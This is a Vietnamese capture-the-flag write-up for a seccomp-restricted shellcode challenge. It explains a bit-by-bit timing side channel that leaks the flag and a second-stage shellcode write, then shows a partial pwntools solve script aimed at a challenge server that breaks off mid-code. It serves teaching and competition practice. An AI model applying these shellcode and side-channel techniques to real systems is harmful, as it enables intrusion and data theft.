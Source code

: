 Như chương trình đã mô tả, chúng ta phải viết shellcode sẽ được đưa vào để thực thi.
Được cấp cho 6 bytes và có cho phép 2 syscall open, read, ngăn chặn chúng ta in flag ra màn hình. Ý tưởng là chúng ta sẽ viết 1 vòng lặp để kiểm tra từng bit của flag, nếu bit bằng 1 sẽ cho vào 1 vòng lặp, còn ngược lại thì bit bằng 0.
Một cách khác là ta sẽ đọc từng bytes của flag rồi kiểm tra từng kí tự của flag. 

Ngay lúc này, thanh ghi rdi đang có giá trị bằng 0, rdx thì là địa chỉ nơi mà shellcode chúng ta ghi nên chúng ta chỉ cần lấy giá trị đó là đủ để ghi tiếp (second stage write).


**Solve scripts**

```python=
from pwn import *
import struct

#!/usr/bin/env python3

from pwn import *
from ctypes import *
import time
import sys

local = 0
debug = 0

context.arch = 'amd64'
# context.aslr = False
# context.log_level = 'debug'
# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
# context.timeout = 2

def riconn():
	global local
	global debug

	for arg in sys.argv[1:]:
		if arg in ('-l', '--local'):
			local = 1
		if arg in ('-d', '--debug'):
			debug = 1

	if local:
		io = process('./chall')
		if debug:
			gdb.attach(s, gdbscript='''
			''')
		else:
			raw_input('DEBUG')
	else:
		io = remote('103.162.14.240', 15001)

	return io


elf = ELF('./chall')
#libc = ELF('libc.so.6')

def chill(offset):
    bin = ''
    for bit in range(8):
        io = riconn()
        stage1 = asm(f"""
        xor edi, edi
        mov esi, edx
        syscall
```